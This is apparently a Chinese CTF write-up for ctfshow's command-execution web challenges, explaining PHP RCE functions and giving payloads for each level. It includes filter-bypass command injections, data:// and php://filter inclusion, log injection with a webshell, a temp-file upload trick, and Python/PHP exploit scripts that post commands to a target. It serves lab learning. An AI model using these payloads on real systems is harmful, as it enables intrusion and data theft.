---
title: "web入门命令执行篇-ctfshow"
date: 2025-03-17T19:10:51+08:00
summary: "web入门命令执行篇-ctfshow"
url: "/posts/web入门命令执行篇-ctfshow/"
categories:
  - "ctfshow"
tags:
  - "命令执行"
draft: false
---

# 0x01基础知识

专门写了一个关于RCE和文件包含的总结，所以这里的知识点就删减掉了

## **2.函数**

1.对于PHP，以下是一些可能存在RCE漏洞的函数：

PHP的system()和exec()函数：这些函数用于执行外部命令，如果未对用户输入进行适当的过滤或验证，攻击者可能利用这些函数执行任意命令。

PHP的eval()函数：该函数用于执行字符串作为PHP代码，如果未对用户输入进行适当的过滤或验证，攻击者可以利用此函数执行任意代码。

PHP的create_function()函数：该函数用于动态创建函数，如果未对用户输入进行适当的过滤或验证，攻击者可以利用此函数执行任意代码。

2.对于ASP（Active Server Pages），以下是一些可能存在RCE漏洞的函数：

ASP的Run()和Exec()函数：这些函数用于执行外部命令，如果未对用户输入进行适当的过滤或验证，攻击者可能利用这些函数执行任意命令。

ASP的ScriptEngine()函数：该函数用于执行VBScript代码，如果未对用户输入进行适当的过滤或验证，攻击者可以利用此函数执行任意代码。

3.对于Java，以下是一些可能存在RCE漏洞的函数：

Java的Runtime.exec()方法：该方法用于执行外部命令，如果未对用户输入进行适当的过滤或验证，攻击者可能利用此方法执行任意命令。

Java的ProcessBuilder类：该类用于构建和执行外部进程，如果未对用户输入进行适当的过滤或验证，攻击者可能利用此类执行任意命令。

4.对于Python，以下是一些可能存在RCE漏洞的函数：

Python的os.system()和subprocess.call()函数：这些函数用于执行外部命令，如果未对用户输入进行适当的过滤或验证，攻击者可能利用这些函数执行任意命令。

Python的eval()和exec()函数：这些函数用于执行字符串作为Python代码，如果未对用户输入进行适当的过滤或验证，攻击者可以利用这些函数执行任意代码。

关于php:

PHP代码执行函数：

eval()、assert()、preg_replace()、create_function()、array_map()、call_user_func()、call_user_func_array()、array_filter()、uasort()、等

PHP命令执行函数：

system()、exec()、shell_exec()、pcntl_exec()、popen()、proc_popen()、passthru()、等

## **3.远程命令执行**

### **1.函数**

system() 函数允许执行系统命令，并将命令的输出直接打印到标准输出（浏览器或命令行终端）。它的基本语法如下：

**system(string $command, &$output, &$return_var);**

- $command：要执行的命令。
- $output（可选）：如果提供了这个参数，命令的输出将会被存储在这个数组中，每一行输出作为一个数组元素。
- $return_var（可选）：如果提供了这个参数，命令执行后的返回状态码将会被存储在这个变量中。
- （exec() 函数返回命令输出的最后一行。如果你需要获取完整的输出，应该使用 

$output 参数。）

$command 参数是要执行的系统命令。

$output 参数是一个引用，用于存储命令的输出信息。

$return_var 参数是一个引用，用于存储命令的返回值（执行结果）。

除了 system() 函数，还有其他用于执行系统命令的 PHP 函数，例如：

exec() 函数：执行系统命令，并将命令的输出作为一个字符串返回。

passthru() 函数：执行系统命令，并直接将命令的输出发送到标准输出。

shell_exec() 函数：执行系统命令，并将命令的输出作为一个字符串返回。

proc_open() 函数：在一个进程中执行命令，并提供更多的控制和交互选项。

# 0x02题目

## web29

### #绕过flag

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

代码分析:

- error_reporting(0)是php中用于关于报错的回显，如果有错误信息，不会直接显示出来。
- isset()函数是php中检查定义的值中是否为空，如果不为空将会继续，若是为空就执行 highlight_file(**FILE**)用于显示当前文件。
- !preg_match("/flag/i", $c)函数是检查$c中是否包含flag（不区分大小写）

### **preg_match ()函数**

匹配正则表达式模式，分隔符后的"i"标记这是一个大小写不敏感的搜索

模式中的\b标记一个单词边界，所以只有独立的单词会被匹配，如：

```
if (preg_match("/\bweb\b/i", "PHP is the web scripting language of choice.")) ：   True 
if (preg_match("/\bweb\b/i", "PHP is the website scripting language of choice.")) ：   False
```

小技巧：如果仅仅想要检查某个字符串是否包含另外一个字符串，不要使用 preg_match() ， 使用 strpos() 会更快。

- eval($c)是将$c当做代码进行执行

这里的话就是

payload:

```
?c=system("ls");#查看目录
```



```
?c=system("tac%20fla?.php");
?c=system("tac%20fla*");
?c=system("tac%20fla\g.php");
```

非预期解

1.写入一句话木马用蚁剑连接

2.函数套用?c=highlight_file(next(array_reverse(scandir("."))));

3.内敛执行?c=echo%20`tac%20fla*`;

4.利用参数输入`?c=eval($_GET[1]);&1=phpinfo();`

5.利用include参数输入?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php

6.利用cp命令将flag拷贝到别处?c=system("cp%20fl*g.php%20a.txt%20");然后浏览器访问a.txt，读取即可。

## web30

### #绕过system

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

其实与上一题的做法是不变的，只是我们需要绕过system去执行命令，这里我们可以用passthru命令函数

payload

```
?c=passthru("ls");
?c=passthru("tac%20fla*");
```

非预期解的话只要不影响到system的话其实都可以正常使用，如果有system的话换成其他的函数就可以了

## web31

### #绕过cat和php

过滤了flag，system，php,cat,sort,shell,'\.',' ','\''

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这里我们用${IFS}代替空格

payload

```
?c=passthru("ls");发现可以回显，证明并没有用过滤双引号
?c=passthru("ca\t${IFS}fla?????");
```

**但语句是错误的，后来看了很多大佬的wp，才知道:**

因为在php里面$是变量的前缀，是一个特殊字符，我们需要转义特殊字符，$则不再表示变量的意思。

注意：上面的$需要用反斜杠进行转义

```
?c=passthru("tac\\${IFS}fla*");
```

然后可以获取flag

## web32



这次过滤了更多了，过滤了/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/

再像前几关一样直接输入命令执行不大可能了，因为括号，分号，反引号都被过滤掉了,所以我们这里的话可以用上第一题里面的非预期解去做

### **1.带参数输入**

**?>代替分号**

```
?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php

?c=include$_GET[1]?>&1=data://text/plain,<?php system("tac flag.php")?>
```

### **2.日志注入:**

做法:

```
url/?c=include$_GET[1]?%3E&1=../../../../var/log/nginx/access.log
```

/var/log/nginx/access.log是nginx默认的access日志路径，访问该路径时，在User-Agent中写入一句话木马，然后用中国蚁剑连接即可

## web33



比web32多过滤了一个双引号,但33和32都是一个解题方法

## web34



比web33多过滤了一个冒号，但不影响我们用伪协议

## web35



比web34多了<和=，同上

## web36



一样的解题方法通杀，只是参数不要写成数字就行了

## web37

### #include包含



与前面不同的是，这里加了一个include语句

### **include函数**

**include就是包含文件的函数，把后$c的内容包含进来.**

解题思路:

**这里我们对$c的值应该设为一串php代码**

**利用data伪协议读flag**

data://，data:// 是一个流封装器（stream wrapper），它允许你读取或写入数据作为文件流，而不是从实际的磁盘文件中，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行

**方法一：**

```
?c=data://text/plain,<?php echo system('cat fl*');?>
?c=data://text/plain,<?php%20system('cat fl*');?>
```

查看源码即可得到flag

**方法二：**使用base64编码

```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```

base64解码

```
<?php system('cat flag.php');?>
```

查看源码即可得到flag

## web38



原理同上一题，多了个php和file过滤,那我们就用data伪协议，但因为php被过滤了，所以我们改一下payload

```
/?c=data://text/plain,<?=system("tac fla*");?>
/?c=data://text/plain,<?=`tac fla*`;?>
```

在PHP中，使用是短标签的写法，等同于

```
<?php echo ... ?>
```

当然这里有日志注入也是可以的

nginx的日志文件/var/log/nginx/access.log

```
data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```

查看源代码 或者通过包含日志文件拿shell

## web39

### #**include包含.php**



过滤了flag,限制了.php后缀

### **include($c.".php");**

 这行代码的作用是将一个PHP文件的内容包含（或插入）到当前执行的脚本中。这里，

$c 是一个变量，它的值会被附加到字符串 ".php" 之前，从而构成要包含文件的完整路径（或至少是文件名，如果文件位于当前工作目录中）。例如，如果 

$c 的值是 "header"，那么 include($c.".php"); 实际上会尝试包含并执行名为 header.php 的文件。

我们可以试试伪协议，因为不能带有flag，所以filter协议和php://input也不好用了。data://text/plain, 这样就相当于执行了php语句, .php 因为前面的php语句已经闭合了，所以后面的.php会被当成html页面直接显示在页面上，起不到什么 作用

构造payload:

```
/?c=data://text/plain,<?php%20system(%27tac%20fla*%27);?>
```

这样就相当于执行了php语句.php

成功获取flag

## web40

### #无参数rce



**解题思路:**

查看目录:

```
?c=var_dump(scandir(pos(localeconv())));

?c=print_r(scandir(current(localeconv())));
```

flag.php在倒数第二位，然后用show_source输出

**1.?c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));**

- **payload1解释**

echo：PHP中的输出函数，用于输出字符串或表达式的结果。

highlight_file：PHP中的函数，用于高亮显示PHP文件的内容。

next：PHP中的函数，用于将内部指针向前移动到下一个元素。

array_reverse：PHP中的函数，用于反转数组元素的顺序。

scandir：PHP中的函数，用于列出目录中的文件和子目录。

pos：PHP中的函数，返回数组中当前元素的键名。

localeconv()：PHP中的函数，返回本地化的数字和货币格式信息。

- 具体来说，这段代码的执行流程如下：

localeconv()：获取本地化的数字和货币格式信息。

pos(localeconv())：获取localeconv()返回数组的键名。

scandir(pos(localeconv()))：列出pos(localeconv())指向的目录中的文件和子目录。

array_reverse(scandir(pos(localeconv())))：反转这些文件和子目录的顺序。

next(array_reverse(scandir(pos(localeconv()))))：将内部指针移动到下一个元素，即下一个文件或子目录。

highlight_file(next(array_reverse(scandir(pos(localeconv())))))：高亮显示这个文件的内容。

echo：输出这个高亮显示的内容。

**2.`c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php")`;**

- payload2解释：

?c=`eval(next(reset(get_defined_vars())));`：这是GET请求的一部分，其中c参数的值是一个PHP表达式。

get_defined_vars()：这个函数返回当前所有已定义变量的数组，包括局部变量和全局变量。

reset()：这个函数将数组内部指针指向第一个元素，并返回该元素的值。

next()：这个函数将数组内部指针向前移动一位，并返回当前指针处的元素值。

eval()：这个函数执行字符串作为PHP代码。

&1=;system("tac%20flag.php");：这是GET请求的另一部分，尝试通过URL参数执行系统命令。

system()：这个函数执行一个shell命令，并将完整的输出返回。

"tac%20flag.php"：这里的命令是tac flag.php，tac是反向输出文件内容的Unix命令，%20是URL编码的空格。

这段代码的目的是尝试执行flag.php文件的反向内容。

## web41

### #或运算



if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){  eval("echo($c);");

这段PHP代码的作用是检查变量

$c是否不包含任何数字（0-9）、小写字母（a-z）、以及一系列特殊字符（包括^、+、~、$、[、]、{、}、&、-）。如果变量

$c不包含这些字符中的任何一个，那么它将执行eval("echo($c);");语句。

这个题过滤了$、+、-、^、~使得**异或自增和取反**构造字符都无法使用，同时过滤了字母和数字。但是特意留了个（或运算符）|

思路如下：

- 首先对ascii从0-255所有字符中筛选出未被过滤的字符，然后两两进行或运算，存储结果。
- 跟据题目要求，构造payload的原型，并将原型替换为或运算的结果
- 使用POST请求发送c,获取flag

1.方法一

采用了大佬的脚本

**rce_or.php**

```php
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
    for ($j=0; $j <256 ; $j++) { 

        if($i<16){
            $hex_i='0'.dechex($i);
        }
        else{
            $hex_i=dechex($i);
        }
        if($j<16){
            $hex_j='0'.dechex($j);
        }
        else{
            $hex_j=dechex($j);
        }
        $preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';//绕过的运算符
        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    echo "";
    }
  
        else{
        $a='%'.$hex_i;
        $b='%'.$hex_j;
        $c=(urldecode($a)|urldecode($b));
        if (ord($c)>=32&ord($c)<=126) {
            $contents=$contents.$c." ".$a." ".$b."\n";
        }
    }

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

大体意思就是从进行异或的字符中排除掉被过滤的然后在判断异或得到的字符是否为可见字符。

**exp.py**

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")  #没有将php写入环境变量需手动运行
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))
   data={
       'c':urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print("\n[*] result:\n"+r.text)
```

在文件中用cmd命令:

python exp.py url(记得https改成http，我找了好久才找到错误的原因)

即可获取flag!

方法二

1.用字符手动构造payload

(system)(‘ls’)

c=("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%00%0c%13%00"|"%27%60%60%27")

(system)(cat flag.php)

c=("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%03%01%14%00%06%0c%01%07%00%10%08%10"|"%60%60%60%20%60%60%60%60%2e%60%60%60") 

2.用脚本自动生成payload

python

```python
import re
import urllib
from urllib import parse
hex_i = ""
hex_j = ""
pattern='/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i'
str1=["system","ls"]//要构造的字符串 system 和 ls
for p in range(2):
    t1 = ""
    t2 = ""
    for k in str1[p]:
        for i in range(256):
            for j in range(256):
                if re.search(pattern,chr(i)) :
                    break
                if re.search(pattern,chr(j)) :
                    continue
                if i < 16:
                    hex_i = "0" + hex(i)[2:]
                else:
                    hex_i=hex(i)[2:]
                if j < 16:
                    hex_j="0"+hex(j)[2:]
                else:
                    hex_j=hex(j)[2:]
                hex_i='%'+hex_i
                hex_j='%'+hex_j
                c=chr(ord(urllib.parse.unquote(hex_i))|ord(urllib.parse.unquote(hex_j)))
                if(c ==k):
                    t1=t1+hex_i
                    t2=t2+hex_j
                    break
            else:
                continue
            break
    print("(\""+t1+"\"|\""+t2+"\")")
```

得出的结果与手动构造一样，但相抵便捷一点

## web42

### #重定向丢弃的绕过



解析代码:system($c." >/dev/null 2>&1");

- system() 是PHP中的一个函数，用于执行外部程序，并显示输出。
- $c 是一个变量，它应该包含要执行的命令的字符串。
- \>/dev/null 是重定向操作符，它的作用是将标准输出（stdout）重定向到/dev/null，一个特殊的设备文件，用于丢弃所有写入其中的数据。
- 在类Unix系统中,/dev/null,或称空设备,**是一个特殊的设备文件**,它丢弃一切写入其中的数据(但报告写入操作成功)
- 2>&1 是另一个重定向操作符，它的作用是将标准错误输出（stderr，文件描述符为2）重定向到标准输出（stdout，文件描述符为1）的当前位置。在这个上下文中，因为标准输出已经被重定向到/dev/null，所以**标准错误输出也会被重定向到**/dev/null。

**所以这里是不进行回显**，输入的内容会被丢弃，该怎么办呢？答案是可以使用 `";" ,"||" ," & "," && " `分隔，如?c=ls&&pwd. 执行的时候会将两个都正常执行，但由于重定向，后面的pwd指令的结果会被丢弃而不被输出

### **知识点:通道符**

; //分号

| //只执行后面那条命令

|| //只执行前面那条命令

& //两条命令都会执行

&& //两条命令都会执行

### **知识点:重定向**

重定向(Redirect)就是通过各种方法**将各种网络请求重新定个方向转到其它位置**

重定向是网页制作中的一个知识。假设你现在所处的位置是一个论坛的登录页面，你填写了帐号，密码，点击登陆，如果你的帐号密码正确，就自动跳转到论坛的首页，不正确就返回登录页；**这里的自动跳转，就是重定向的意思**。或者可以说，**重定向就是，在网页上设置一个约束条件，条件满足，就自动转入到其它网页、网址。**

**解题思路:**

**1.查看目录:?c=ls;ls**

**语句拼接后是system(ls;ls**>/dev/null 2>&1**);由于;的作用是逐步执行，由于重定向，后面的ls执行的结果会被丢弃而不会输出**

**2.查看flag.php:?c=tac flag.php;ls**

**同1的解释**

**最后成功获得flag!**

## web43

### #过滤+重定向



**正常的过滤+重定向**

;分号用不了那就用别的管道符

payload:

```
?c=ls&&ls---查看目录
```

当时我传进去后发现没有回显，以为是我自己理解错了，结果是参数处理错误，意思就是当?c=ls&&ls时服务器只是将ls识别成c的传递值，而不是ls&&ls，当他们经过url编码后服务器才会把完整的ls&&ls当成是给c传递的值，所以我们的payload应该是:

```
?c=ls%26%26ls

?c=tac flag.php%26%26ls---查看flag
```

当然||和|,&都是可以的，但||和|不是中间件，&是中间件，所以需要解析

## web44



跟上题一样

## web45



一样

## web46



## wbe47



只是过滤了很多cat的替代命令，tac可以正常用

## web48



还是没过滤掉tac

**常见的命令工具:**

sed：

- 是一个流编辑器，用于对文本进行过滤和转换。
- 可以逐行读取文件或管道输入，并根据指定的规则对文本进行处理。
- 支持删除、替换、插入、追加文本等操作，以及使用正则表达式进行匹配和替换。

cut：

- 用于从文本文件中提取列或字段。
- 可以按字节、字符或指定分隔符来切割文本。
- 支持从文本中提取指定范围的字符或字段，并输出到标准输出或指定文件。

awk：

- 是一个强大的文本处理工具，用于对文本文件进行格式化、扫描和处理。
- 可以使用模式匹配和动作对文本进行过滤和转换。
- 支持内置变量和自定义函数，以及使用正则表达式进行匹配和替换。
- 常用于处理和分析日志文件、数据报表等。

strings：

- 用于从二进制文件中提取可打印的字符串。
- 可以扫描文件并输出所有长度超过指定阈值的连续可打印字符序列。
- 常用于分析二进制文件的内容，如可执行文件、库文件等。

od：

- 是一个八进制转储工具，用于以不同的格式（如八进制、十六进制、十进制等）显示文件内容。
- 可以读取二进制文件，并以指定的格式输出其内容。
- 常用于分析二进制文件的结构和内容。

curl：

- 是一个命令行工具，用于在命令行下执行URL传输操作。
- 支持多种协议，如HTTP、HTTPS、FTP等。
- 可以用于下载或上传文件，以及发送GET、POST等HTTP请求。
- 常用于自动化脚本中，用于从Web服务器获取数据或向Web服务器发送数据。

## web49



比上次多过滤了一个百分号，但这是当百分号作为参数传递的时候才会被过滤，而url编码不会

：在进行URL编码时，通常不会直接过滤掉百分号，因为百分号是编码机制的一部分。

所以还是可以正常用的

## web50



过滤了两个编码，%09和%26，分别是制表符和&符号，但我们依旧可以用其他的去代替他们

用<>代替空格，用||去代替&&

```
/?c=tac<fla%27%27g.php||
/?c=tac<>fl\ag.php||ls
```

## web51



这次居然过滤了tac，另外同cat功能的函数还有： cat、tac、more、less、head、tail、nl、sed、sort、uniq、rev

所以我们使用nl进行绕过：?c=nl<>fl\ag.php||ls

或者绕过过滤:?c=ta\c<>fl\ag.php||ls

## web52



?c=ta\c${IFS}fl\ag.php||	发现flag不在里面



我们看看根目录呢

?c=ls${IFS}/||ls


发现flag在根目录里面

?c=ta\c${IFS}/fl\ag||ls拿取根目录的flag

## web53



意思是我们像c传递的值会被当成system的命令，并将执行结果赋值给d，然后输出d，做法是一样的没有变

?c=ta\c${IFS}fl\ag.php

## web54



\*：星号，通常用作通配符。里面的意思是所有包含其中字符的字符串都会被过滤，例如*f.*l.*a.*g意思就是只要传递的参数中包含flag字符串都会被过滤，所以flag绕过方式就不可以了。

如说cat，.*当出现cat这个整体时才会进行匹配，会尽可能匹配较多字符，ca，c之类的字符不会进行匹配，tac为什么不能用t??,是因为还有一个跟它一样长度的命令top

解法一:

使用mv命令把flag文件重命名，再使用uniq查看a.txt

c= mv${IFS}fla?.php${IFS}a.txt

c=uniq${IFS}a.txt

解法二:

凡是按序出现了cat 都被匹配。 这时，我们不能直接写ca?因为这样是匹配不到命令的。 只能把全路径写出来只能把全路径写出来，如/bin/ca?,与/bin/ca?匹配的只有/bin/cat命令,所以构造payload:

?c=/bin/ca?${IFS}????.??? 

解法三:直接用uniq查看

c=uniq${IFS}f???.php

### 知识点:uniq

uniq命令的基本功能是检测和删除文本文件中相邻的重复行，或者仅显示重复行、不重复行

解法四:

c=grep${IFS}-r${IFS}'ctfshow'${IFS}.

### 知识点:grep的常用选项与示例

1. 基本搜索：

- grep "pattern" filename：在文件filename中搜索包含pattern的行。

1. 显示匹配行的行号：

- grep -n "pattern" filename：在输出匹配行的同时，显示其行号。

1. 反向匹配：

- grep -v "pattern" filename：输出不包含pattern的行。

1. 统计匹配行的数量：

- grep -c "pattern" filename：统计并输出匹配pattern的行的数量。

1. 递归搜索：

- grep -r "pattern" directory：在目录directory及其子目录中递归搜索包含pattern的文件。

1. 使用正则表达式：

- grep -E "pattern1|pattern2" filename：使用扩展正则表达式，匹配pattern1或pattern2。

1. 不区分大小写：

- grep -i "pattern" filename：在搜索时不区分大小写。

## web55

### #无字母rce



这次把字母过滤了

**解法一:base64程序查看flag.php**

由于过滤了字母，但没有过滤数字，我们尝试使用/bin目录下的可执行程序。

?c=/bin/base64 flag.php

替换后变成

?c=/???/????64 ????.???

**解法二:采用数字编码**

$'\xxx' 语法用于表示使用八进制（octal）编码的字符

**$'\164\141\143' $'\146\154\141\147\56\160\150\160**

**解法三:临时文件rce**

利用文件上传进行命令执行

1.构造POST数据包(或使用postman直接上传文件)

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="https://41d5615f-8af8-425d-af5e-b0efc6a90284.challenge.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

2.构造php文件进行上传

\#!/bin/sh

ls

3.构造poc执行命令

?c=.%20/???/????????[@-[]

4.上传请求包



可以看到有两个文件，接下来我们访问flag.php文件，把php文件内容改一下

```
#!/bin/sh

cat flag.php
```

即可获得flag!

## web56

### #无数字字母Rce



**先看看哪些字符是可以用的**

**用php脚本**

```php
#输出可用字符
<?php
for ($i=32;$i<127;$i++){
        if (!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i",chr($i))){
            echo chr($i)." ";
        }
}
#可用字符:# ) * + , - . / : = ? @ [ \ ] ^ _ | } ~ 
?>
```

没有被过滤的字符:# ) * + , - . / : = ? @ [ \ ] ^ _ | } ~ 

因为没有过滤. 而点命令在linux中是source的缩写，通过点命令，我们可以在没有执行权限的情况下执行sh命令。

### 解题思路:

通过POST上传一个文件，文件内容是要执行的命令，并且同时点命令执行该文件，形成条件竞争。这个文件默认保存在/tmp/phpxxxx路径下，所以可以通过/???/????????[@-[] 来构成这个路径，[@-[]为匹配ascii码范围在@-[的字符（A，Z被屏蔽，所以范围大一位），之所以用[@-[]是因为直接用/???/?????????匹配到的其他文件都是小写字母，只有php临时生成的文件才包含大写字母。就算这样，也不一定能够准确地匹配到我们的上传文件，所以可能要多次刷新。

1.构造POST数据包或使用postman传递

构造数据包

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://227f0ddd-0640-4c46-b921-4a7fb674c137.challenge.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

2.编写php文件

```php
#!/bin/sh
ls
```

3.构造poc执行命令

```
?c=.%20/???/????????[@-[]
```

之所以用[@-[]是因为直接用/???/?????????匹配到的其他文件都是小写字母，只有php临时生成的文件才包含大写字母。就算这样，也不一定能够准确地匹配到我们的上传文件，所以可能要多次刷新。

4.上传文件然后用bp抓包，加上poc执行命令，然后发送



看到flag.php了，修改php文件命令继续上传



拿到flag！

## web57



先看看能用哪些字符

```
! # $ ( ) + / : @ \ ] ^ _ { | } ~ 
```

.号被过滤了，不能用bash命令，那就另辟出路

### 解题思路:利用linux的$(())构造出36

利用linux的$(())构造出36

$(())=0

$((~ $(()) ))=-1

通过`$(())`操作构造出36： `$(())` ：代表做一次运算，因为里面为空，也表示值为0

`$(( ~$(()) )) `：对0作取反运算，值为-1

`$(( $((~$(()))) $((~$(()))) ))`： -1-1，也就是(-1)+(-1)为-2，所以值为-2

`$(( ~$(( $((~$(()))) $((~$(()))) )) )) `：再对-2做一次取反得到1，所以值为1

故我们在`$(( ~$(( )) ))`里面放37个`$((~$(())))`，得到-37，取反即可得到36:

```python
get_reverse_number = "$((~$(({}))))" # 取反操作
negative_one = "$((~$(())))"        # -1
payload = get_reverse_number.format(negative_one*37)
print(payload)
```

## web58-65

以58为例



## eval()函数

eval() 函数把字符串按照 PHP 代码来计算。该字符串必须是合法的 PHP 代码，且必须以分号结尾。

使用方法：eval(php代码)

简单来说这里是远程代码注入的rce

用bp抓包，修改请求方法为POST，send了几次之后发现system()函数，passthru()函数都是被禁用了的，但后来发现highlight_file()函数没有被过滤，所以采用highlight_file()函数

## 两种解法

### highlight_file函数查看

```
c=highlight_file("flag.php");
```

- highlight_file()函数是 PHP 中用于语法高亮显示文件源代码的一个函数。它读取指定的文件，并返回带有 HTML 语法高亮标记的源代码

### include+伪协议

c=include($_POST['w']);&w=php://filter/read=convert.base64-encode/resource=flag.php

### 无参数读取

```
show_source(next(array_reverse(scandir(current(localeconv())))));
```

### show_source()函数

是 PHP 中用于显示 PHP 源代码的一个函数



是可以拿到flag的哈

# web66

这次的题目是一样的，但过滤不太一样，show_source()函数被过滤了

那就用highlight_file()函数看看

结果发现.....



用参数输入include做也是一样



侮辱性极强，看我们拿下他

既然不在这个文件里面，那我们扫一下目录

打印目录：print_r(scandir("/"));//如果不在网站目录，就往前找使用../

### scandir()函数

- **功能**：返回指定目录中的文件和目录数组。
- **用法**：`$files = scandir($directory, $sorting_order);`

- `$directory` 是你想要扫描的目录的路径。
- `$sorting_order` 是可选的排序顺序，可以是 `SCANDIR_SORT_ASCENDING`（升序，默认值），`SCANDIR_SORT_DESCENDING`（降序），`SCANDIR_SORT_NONE`（不排序）。
- 返回值是一个包含目录中所有文件和目录名称的数组（包括 `.` 和 `..`），如果失败则返回 `false`。

### `readdir()`函数

- **功能**：从已经打开的目录中读取下一个文件的名称。
- **用法**：`$filename = readdir($handle);`

- `$handle` 是之前通过 `opendir()` 打开的目录句柄。
- 返回值是目录中下一个文件的名称（字符串），如果已经读取到目录末尾或出错则返回 `false`。

### `opendir()`函数

- **功能**：打开一个目录句柄，供其他目录函数使用。
- **用法**：`$handle = opendir($path);`

- `$path` 是你想要打开的目录的路径。
- 返回值是一个目录句柄（resource 类型），如果失败则返回 `false`。

先用scandir列根目录内容，用print_r回显。



看到一个flag.txt

最后正常查看这个文件就行(记得flag.txt是在根目录，所以应该是highlight_file('/flag.txt'))

另外的:新思路：PHP原生类可遍历目录 c=$dir=new DirectoryIterator("/");echo $dir; (url编码：c=%24dir%3dnew%20DirectoryIterator(%22%2f%22)%3b%0aforeach(%24dir%20as%20%24f)%7b%0a%20%20%20%20echo(%24f.'%3cbr%3e')%3b%7d)

# web67

这次print_r()函数被禁用了，我们换一个

c=var_dump(scandir('/'));

c=var_export(scandir('/'));

## print_r()函数替换函数

### var_dump()

- `var_dump()` 提供了比 `print_r()` 更详细的信息，包括变量的类型和长度（对于字符串）。
- 它对于调试非常有用，因为它显示了更多关于变量的内部信息

### var_export()

- `var_export()` 返回或输出关于变量的字符串表示，这个表示可以作为有效的 PHP 代码来执行（如果变量是数组或对象的话，可能会需要一些调整）。
- 它对于生成代码示例或配置数据很有用。

# web68


直接提示highlight_file()函数不能用了

没关系，那就用其他的

c=readgzfile("/flag.txt");

### readgzfile()函数

是 PHP 中用于读取整个 gzip 压缩文件的内容，并将其作为字符串返回的函数。这个函数不会直接输出文件内容到浏览器或终端，而是将内容存储在变量中供后续使用。

c=require("/flag.txt");

### require()函数

是 PHP 中用于包含并运行指定文件的一个语句。与 `include()` 函数类似，`require()` 也会将指定文件的内容包含到当前脚本中

c=include("/flag.txt");

### include()函数

include()可以引入并执行一个指定的文件的内容，如果那个被引入的文件包含了HTML代码或PHP代码，这些代码会在当前的脚本中执行，从而间接地在最终的输出中显示内容。

也可以用参数输入include+伪协议来做

c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt

# web69

跟68一样的提示

先试试老方法

这次不能用var_dump()函数了，我们换成var_export()是可以用的

# web70

查看题目



这次新增了两个函数哈，我们先逐个了解一下

### error_reporting() 函数

`error_reporting()` 函数是 PHP 中用于设置错误报告级别的函数。它允许你控制哪些类型的错误、警告和通知会被显示出来。这个函数对于开发和调试过程特别有用，因为它允许开发者根据需要调整错误报告的详细程度。

### **ini_set()函数**

`ini_set()` 函数是 PHP 中用于设置配置选项（ini 配置指令）的值的一个函数。这些配置选项通常位于 `php.ini` 文件中，但 `ini_set()` 允许你在运行时动态地更改这些设置，而无需修改 `php.ini` 文件本身。

目前来看是对题目没啥用，我们正常解看看

发现还是可以正常做出来的，那就没什么好讲的

# web71

查看题目，好像跟之前的不太一样

有一个index.php文件，下载看看



### $s = ob_get_contents();

- 这行代码获取当前输出缓冲区的内容，并将其存储在变量`$s`中。输出缓冲允许你临时存储输出而不是直接发送到浏览器。这通常用于在发送最终输出之前进行进一步的处理或修改。

### ob_end_clean();

- 这行代码结束当前的输出缓冲并丢弃缓冲内容（尽管我们已经将其保存在`$s`中）。这意味着在调用`ob_end_clean()`之后，任何新的输出将直接发送到浏览器，而不是被缓冲。

echo preg_replace("/[0-9]|[a-z]/i","?",$s);

